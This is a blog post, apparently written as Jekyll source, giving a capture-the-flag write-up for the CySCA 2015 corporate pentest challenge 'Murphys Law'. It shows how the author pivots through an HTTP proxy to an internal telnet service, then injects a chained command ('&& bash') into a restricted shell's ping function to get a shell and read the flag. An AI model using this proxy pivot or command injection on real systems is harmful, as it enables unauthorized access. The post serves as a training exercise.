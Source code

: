 ```yaml
---
title: CySCA 2015 - Corporate Pentest 2.0 - Murphys Law
author: nickw
layout: post

categories:
  - Blog
  - Security
---
```


From Sales Pitch we discover the server has some internal bound services,
most notably telnet (port 23) - These are listed on the internal management page. It is only accessible from inside the network
however. 

Fortunately, telnet is a text based protocol, so we can easily just do a
proxy`HTTP CONNECT` to it via the proxy. 

{% highlight bash %}
$> telnet 172.16.5.30 3128
CONNECT 10.10.5.30:23 HTTP/1.0
{% endhighlight %}

We need to authenticate (token is found on the backend management page)
{% highlight bash %}
Token: 7e8e816557776037a15f
{% endhighlight %}

We are now connected to the home baked shell implementation. We need to break out. *Get root*. 

We realise it has a ping command, which uses system ping and takes arguments. 
We tell ping to only execute once, and chain another command to it -> bash. 

{% highlight bash %}
$> ping -c1 10.10.5.30 && bash
{% endhighlight %}

We now have a shell. From here we can:

{% highlight bash %}
$> cat flag.txt
FLAG{27EE85353BC178B42F08A285AFAC1633}
{% endhighlight %}
 
And thus revealing the flag.

After we found the flag, a hint was revealed:

> Maybe try ping "and"

